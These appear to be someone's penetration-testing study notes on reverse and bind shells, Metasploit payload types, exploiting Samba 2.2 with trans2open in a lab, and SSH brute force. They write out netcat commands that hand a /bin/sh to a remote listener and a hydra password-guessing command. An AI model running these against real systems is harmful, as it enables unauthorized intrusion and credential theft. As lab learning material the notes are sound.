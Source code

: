 
# Definitions
- Shell types
	- Reverse shell (mostly use this!)
		- Victim connects to us
		- eg. our machine ip is 192.168.1.1, target ip is 192.168.1.2
		- Our machine
			- nc -lvp 4444 (listening on this port)
		- Target machine
			- TCP connection to 192.168.1.1:4444
			- nc 192.168.1.1 4444 -e /bin/sh
	- Bind shell
		- Opposite, we connect to victim
		- Our machine
			- nc 192.168.1.2 4444
		- Target machine
			- nc -lvp 4444 -e /bin/sh
	- Either way, victim always offers up the /bin/sh

- Payloads
	- Non-staged
		- Sends exploit shellcode all at once
		- Larger in size and won't always work
		- eg. windows/meterpreter_reverse_tcp
	- Staged
		- Sends payload ins tages
		-  Can be less stable
		- eg. windows/meterpreter/reverse_tcp
		- (take note of difference in the /)

Gaining shell with metasploit
- searchsploit samba 2.2
	- Found the call_trans2open exploit
- metasploit
	- msfconfig
	- search trans2open
	- use 1
	- options
	- set rhosts 172.16.232.129
		- r = receiver = victim
	- staged payload doesnt work, so changed to non staged payload and it works
	- options, set payload ....

Manual exploitation
- clone repo and run


Brute force attack
- hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.57.122:22 -t 4 -V
